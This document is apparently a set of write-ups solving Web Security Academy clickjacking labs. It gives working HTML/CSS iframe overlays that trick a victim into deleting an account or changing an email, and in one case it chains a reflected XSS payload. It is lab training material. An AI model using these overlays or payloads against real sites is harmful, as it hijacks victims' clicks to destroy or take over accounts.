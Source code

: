 
**Step1:**

Login to your account

**Step2:**

Go to exploit server and add iframe and a div which is used as a button

**Step3:**

Craft a frame using basic html and css to match it exactly at delete account button.

In my case this css styling works

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 550px;
        opacity:0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a12005d0475fa9580a61763005600cf.web-security-academy.net/my-account"></iframe>
```


Further decrease the opacity to 0.0001

Now store exploit and deliver it to victim

And the lab is solved




**Step 1:**

Login with given credential

Store the below script to change email 

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index:1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a02002b034b51fb8058ad67009100a7.web-security-academy.net/my-account?email=hello3@attacker-website.com"></iframe>
```

Adjust the value according to system window screen


Store and deliver it to victim. The lab will solve after few second or minute
If payload not working the url encode the email


**Step1 :**

login with given credential


In exploit server paste the explit and deliver it to victim. I will url encode the email then it work for me

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index:1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a4700bf0467df5d81849e28007f0053.web-security-academy.net/my-account?email=%68%65%6c%6c%6f%33%40%61%74%74%61%63%6b%65%72%2d%77%65%62%73%69%74%65%2e%63%6f%6d"></iframe>
```







**Step1:**

Submit a feedback form with print in name column …if check in which input box an xss exist start with name 

We can see we have an xss here

Now we use script in previous challenge only make 2 change one increase top because button is at bottom…secondly we want a user to direct go to button when page load for this we append url with #<id of button tag>

Here it is feedbackResult

To find all variable name we submit the form and in burpsuite we have clear name


so our script look like

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:620px;
        left:80px;
        z-index:1;
    }
</style>
<div>Click me</div>
<iframe  src="https://0a9a008a04590dd480661c9200cc003d.web-security-academy.net/feedback?name=<img+src%3d1+onerror%3dprint()>&email=hell%40nothing.com&subject=s&message=1#feedbackResult"></iframe>
```

Store and deliver it to victim to solve the lab. I have url encode the name value and email.





**Step1:**

Login with credential.

**Step2:**

We can see here is a delete button when we click on it we have

So we write a iframe in a say that first we click on  delete then yes

If we see the url we have for my account

`https://0ae1008f040bcbe18327738f00ca0020.web-security-academy.net/my-account?id=wiener`

For delete we have

`https://0ae1008f040bcbe18327738f00ca0020.web-security-academy.net/my-account/delete`

Now we Design an iframw the blow one is for my computer…
Store the iframe

```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:65px;
		z-index: 1;
	}
   .secondClick {
		top:292px;
		left:195px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0ae1008f040bcbe18327738f00ca0020.web-security-academy.net/my-account"></iframe>
```


